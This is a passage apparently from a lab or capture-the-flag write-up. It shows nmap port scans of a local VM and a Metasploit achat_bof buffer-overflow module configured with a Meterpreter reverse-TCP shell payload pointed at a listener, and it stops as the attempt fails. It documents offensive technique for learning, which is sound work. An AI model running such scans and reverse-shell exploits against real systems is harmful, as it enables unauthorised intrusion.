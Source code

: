     
    
    root@kali# nmap -sT -p- --min-rate 5000 --max-retries 1 192.168.249.129
    Starting Nmap 7.70 ( https://nmap.org ) at 2018-06-12 19:26 EDT
    Nmap scan report for 192.168.249.129
    Host is up (0.00044s latency).
    Not shown: 65533 filtered ports
    PORT     STATE SERVICE
    9255/tcp open  mon
    9256/tcp open  unknown
    MAC Address: 00:0C:29:82:14:87 (VMware)
    
    Nmap done: 1 IP address (1 host up) scanned in 39.49 seconds
    
    root@kali# nmap -sU -p- --min-rate 5000 --max-retries 1 192.168.249.129
    Starting Nmap 7.70 ( https://nmap.org ) at 2018-06-12 19:26 EDT
    Nmap scan report for 192.168.249.129
    Host is up (0.00037s latency).
    All 65535 scanned ports on 192.168.249.129 are open|filtered
    MAC Address: 00:0C:29:82:14:87 (VMware)
    
    Nmap done: 1 IP address (1 host up) scanned in 39.53 seconds
    

#### Exploit

##### Metasploit - Fail

Since Metasploit has this build in, it’s temping to try it. Still targeting
the VM:

    
    
    msf exploit(windows/misc/achat_bof) > show options
    
    Module options (exploit/windows/misc/achat_bof):
    
       Name   Current Setting  Required  Description
       ----   ---------------  --------  -----------
       RHOST  192.168.249.129  yes       The target address
       RPORT  9256             yes       The target port (UDP)
    
    
    Payload options (windows/meterpreter/reverse_tcp):
    
       Name      Current Setting  Required  Description
       ----      ---------------  --------  -----------
       EXITFUNC  process          yes       Exit technique (Accepted: '', seh, thread, process, none)
       LHOST     192.168.249.127  yes       The listen address (an interface may be specified)
       LPORT     4444             yes       The listen port
    
    
    Exploit target:
    
       Id  Name
       --  ----
       0   Achat beta v0.150 / Windows XP SP3 / Windows 7 SP1
    

However, it just fails:
